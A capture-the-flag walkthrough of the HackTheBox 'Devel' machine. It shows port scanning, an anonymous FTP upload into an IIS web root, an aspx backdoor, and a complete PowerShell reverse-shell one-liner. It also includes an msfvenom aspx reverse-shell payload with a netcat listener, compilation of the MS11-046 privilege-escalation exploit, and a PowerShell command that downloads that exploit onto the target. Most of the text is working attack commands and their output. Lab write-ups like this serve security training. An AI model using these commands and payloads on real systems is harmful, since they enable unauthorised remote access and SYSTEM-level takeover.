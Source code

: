 # HackTheBox Devel

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.7:14.5]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.5
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.5 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 21,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.5 -p21,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 02:42 EDT
Nmap scan report for 10.10.10.5
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

### Microsoft ftpd

Access to ftp server and I saw this is the web folder, I tested put permission and I got it.

```
┌──(Hades㉿10.10.14.5)-[0.8:14.6]~/walkthrough/hackthebox/devel
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put leecybersec.com
local: leecybersec.com remote: leecybersec.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
7 bytes sent in 0.00 secs (235.7220 kB/s)
ftp>
```

### Microsoft IIS httpd 7.5

```
### Web Enumeration (80) ############################
                                                                                                                                                                            
[+] Files and directories
gobuster dir -k -u http://10.10.10.5:80 -w /usr/share/seclists/Discovery/Web-Content/common.txt                                                                             
<snip>
===============================================================
/aspnet_client        (Status: 301) [Size: 158] [--> http://10.10.10.5:80/aspnet_client/]
                                                                                         
<snip>

[+] All URLs
<title>IIS7</title>                                                                                                                                                         
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img src="welcome.png" alt="IIS7" width="571" height="411" /></a>
```

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Back to file `leecybersec.txt` puted via ftp service.

```
┌──(Hades㉿10.10.14.5)-[0.8:21.8]~/walkthrough/hackthebox/devel
└─$ curl 10.10.10.5/leecybersec.txt  
hades
```

## Foothold

### Aspx Backdoor

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

I upload `backdoor.aspx` to server via ftp service and get a backdoor in the web application.

```
┌──(Hades㉿10.10.14.5)-[0.8:22.5]~/walkthrough/hackthebox/devel
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
<snip>
ftp> put backdoor.aspx
local: backdoor.aspx remote: backdoor.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1663 bytes sent in 0.00 secs (14.2879 MB/s)
ftp>
```

![](images/2.png)

Using `Powershell` to get reverse shell in the server.

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](images/3.png)

### Aspx Revershell

Create reverse shell with `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f aspx > shell.aspx
```

Open listener in Kali machine

```
sudo nc -nvlp 443
```

Upload file `shell.aspx` to web server using ftp service and execute this file.

```
curl 10.10.10.5/shell.aspx
```

![](images/4.png)

## Privilege Escalation

### Vulnerability in Ancillary Function Driver

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Enum system info 

```
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

The OS Version is `6.1.7600 N/A Build 7600` have MS11-046: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege.

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)

![](images/5.png)

Download this exploit and compile to binary execution.

```
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Upload `40564.exe` to Devel using ftp service and execute it.

```
c:\inetpub\wwwroot>whoami
whoami
iis apppool\web

c:\inetpub\wwwroot>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Also upload with `fileupload.aspx` or `powershell`.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/40564.exe','C:\Users\Public\shell.exe')"
```

```
c:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\Public

<snip>
01/04/2021  12:10 ��           250.562 shell.exe

               1 File(s)        250.562 bytes
               8 Dir(s)  22.278.094.848 bytes free

c:\Users\Public>shell.exe
shell.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```